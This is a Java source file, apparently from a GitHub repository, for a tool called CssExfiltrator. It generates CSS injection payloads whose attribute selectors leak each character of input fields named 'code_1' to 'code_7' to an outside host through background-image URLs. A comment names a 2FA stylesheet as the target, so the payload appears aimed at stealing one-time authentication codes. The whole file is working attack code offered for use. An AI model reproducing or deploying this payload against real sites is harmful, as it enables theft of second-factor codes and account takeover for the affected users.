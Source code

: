 public class CssExfiltrator{

    String hostname = "https://u61wqtubaeskyx8lah6eb0705rbhz6.example.com/"; // https://example.com/
    String cssFile = "bcobain23.css"; // uni_2fa_style.css

    String characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-";
    
    public void writeFile(StringBuilder css){
        try {
            FileWriter fw = new FileWriter(cssFile);
            fw.write(css.toString());
            fw.close();
            System.out.println("Successfully wrote css file");
          } catch (IOException e) {
            System.out.println("An error occurred.");
            e.printStackTrace();
          }
    }

    public void getInputNames(String input){
        StringBuilder css = new StringBuilder();
        for(char s:characters.toCharArray()){
            css.append("input[name^='").append(input).append(s).append("'] {background: url('").append(hostname).append(s).append("');}").append("\n");
        }
        System.out.println(css.toString());
        writeFile(css);
    }

    public void getInputValues(){
        StringBuilder css = new StringBuilder();
        for(int i=1; i<=7; i++){
            for(char s:characters.toCharArray()){
                css.append("input[name='code_").append(i).append("'] {background: url('").append(hostname).append(i).append("/").append(s).append("');}").append("\n");
            }
        }
        System.out.println(css.toString());
        writeFile(css);
    }

    public static void main(String[] args){
        CssExfiltrator cssExf = new CssExfiltrator();

        /*
        if(args.length > 0){
            cssExf.getInputNames(args[0]);
        }else{
            cssExf.getInputNames("");
        }
        */
        cssExf.getInputValues();
    }
}
